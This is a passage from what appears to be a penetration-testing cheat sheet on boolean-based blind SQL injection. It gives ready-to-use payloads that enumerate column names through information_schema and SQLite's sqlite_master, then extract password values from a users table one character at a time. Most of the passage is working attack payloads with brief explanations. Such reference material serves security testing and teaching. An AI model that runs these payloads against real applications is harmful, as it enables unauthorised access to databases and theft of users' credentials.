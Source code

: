 ```sql
-- If True, the first char of the first column is a
1'AND (SELECT ASCII(SUBSTRING(column_name, 1, 1))FROM information_schema.columns WHERE table_schema=current_database() AND table_name='TABLE_NAME_HERE' LIMIT 0,1)=97--

-- If True, the second char of the first column is b
1'AND (SELECT ASCII(SUBSTRING(column_name, 2, 1))FROM information_schema.columns WHERE table_schema=current_database() AND table_name='TABLE_NAME_HERE' LIMIT 0,1)=98--

-- If True, the first char of the second column is p
1'AND (SELECT ASCII(SUBSTRING(column_name, 1, 1))FROM information_schema.columns WHERE table_schema=current_database() AND table_name='TABLE_NAME_HERE' LIMIT 1,1)=112--
```
{% endtab %}

{% tab title="SQLite" %}
Enumeration of colums is a bit differents in SQLite. We have to enum the sqlite\_schema.sql fields that stores SQL text that describes the object. This SQL text is a [CREATE TABLE](https://www.sqlite.org/lang_createtable.html), [CREATE VIRTUAL TABLE](https://www.sqlite.org/lang_createvtab.html), [CREATE INDEX](https://www.sqlite.org/lang_createindex.html), [CREATE VIEW](https://www.sqlite.org/lang_createview.html), or [CREATE TRIGGER](https://www.sqlite.org/lang_createtrigger.html) statement that if evaluated against the database file when it is the main database of a [database connection](https://www.sqlite.org/c3ref/sqlite3.html) would recreate the object.

We can send the following queries to retrieve it

```sql
-- If True, the first char of sql field is C
1' AND (SELECT HEX(SUBSTR(sql,1,1)) FROM sqlite_master WHERE type!='meta' and sql NOT NULL AND name='TABLE_NAME_HERE')=HEX('C')--

-- If True, the second char of sql field is R
1' AND (SELECT HEX(SUBSTR(sql,2,1)) FROM sqlite_master WHERE type!='meta' and sql NOT NULL AND name='TABLE_NAME_HERE')=HEX('R')--
```
{% endtab %}
{% endtabs %}

#### Dump values

{% tabs %}
{% tab title="MySQL" %}
First, retrieve the length of the value (we take password column as example):

```sql
1' AND (SELECT LENGTH(password) FROM users LIMIT 0,1)=9-- -  #True -> 1st password is 9 char
```

Second, retrieve values

```sql
-- If True, the first password's char is p
1'AND (SELECT HEX(SUBSTRING(password, 1, 1))FROM users LIMIT 0,1)=HEX('p')-- -

-- If True, the second password's char is a
1'AND (SELECT HEX(SUBSTRING(password, 2, 1))FROM users LIMIT 0,1)=HEX('a')-- -
```
{% endtab %}
